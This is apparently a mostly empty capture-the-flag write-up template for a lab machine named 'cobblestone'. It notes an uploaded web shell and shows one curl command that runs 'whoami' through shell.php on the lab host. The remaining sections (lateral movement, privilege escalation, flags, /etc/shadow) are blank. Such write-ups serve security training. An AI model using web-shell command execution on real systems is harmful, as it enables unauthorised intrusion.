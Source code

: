 Success upload and checking out `whoami`.
```bash
curl -I http://vote.cobblestone.htb/shell.php?cmd=whoami
```
# Lateral Movement to xxx

## Local enumeration


## Lateral movement vector

---
# Privilege Escalation to xxx

## Local enumeration


## Privilege Escalation vector


---
# Trophy

## User Flag
```txt

```
## Root Flag
```txt
```
## **/etc/shadow**

```bash

```

---
# Proof